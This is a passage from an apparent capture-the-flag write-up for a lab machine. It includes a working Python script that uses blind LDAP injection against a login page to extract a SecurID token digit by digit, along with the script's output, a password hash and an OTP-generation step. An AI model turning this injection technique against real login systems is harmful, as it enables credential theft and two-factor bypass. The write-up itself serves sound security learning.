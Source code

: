           - This means that a simple wildcard (`*`) comparison won't do
        - A __sha512crypt__ hash was extracted -- `{crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi2460`
        - This seems to be a __RABBIT HOLE__
>     
      - `pager`
        ```py
        import requests as r
        import urllib.parse as u

        token = ""
        while( len(token)!=81 ):
            for i in range(0,10):

                ldap_injection = "ldapuser))(&(pager=%s%d*" % (token, i)
                data = { "inputUsername": u.quote(ldap_injection) }
                req = r.post("http://10.10.10.122/login.php", data=data)

                if "Cannot login" in req.text:
                    token = token + str(i)
                    print(token)
                    break

        print("[x] THE TOKEN IS " + token)
        ```
        - Run using `python3`:
          ```
          2
          28
          285
          2854
          28544
          285449
          2854494
          28544949
          285449490
          2854494900
          ...
          28544949001135715653165154565233557071316741144572714
          285449490011357156531651545652335570713167411445727140
          2854494900113571565316515456523355707131674114457271406
          28544949001135715653165154565233557071316741144572714060
          285449490011357156531651545652335570713167411445727140604
          2854494900113571565316515456523355707131674114457271406041
          ...
          28544949001135715653165154565233557071316741144572714060417214145671110271671700
          285449490011357156531651545652335570713167411445727140604172141456711102716717000
          [x] THE TOKEN IS 285449490011357156531651545652335570713167411445727140604172141456711102716717000
          ```

        __NOTE(S)__:
        - The `pager` attribute seems to contain the __token string__
        - The token string is `285449490011357156531651545652335570713167411445727140604172141456711102716717000`
        - This token is called a __*Pure Numeric CTF (Compressed Token Format) string*__
>
3. Login using the information found:
   1. Generate an OTP using the token string:
      ```sh
      stoken import --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000
      # Enter new password: 
      # Confirm new password: 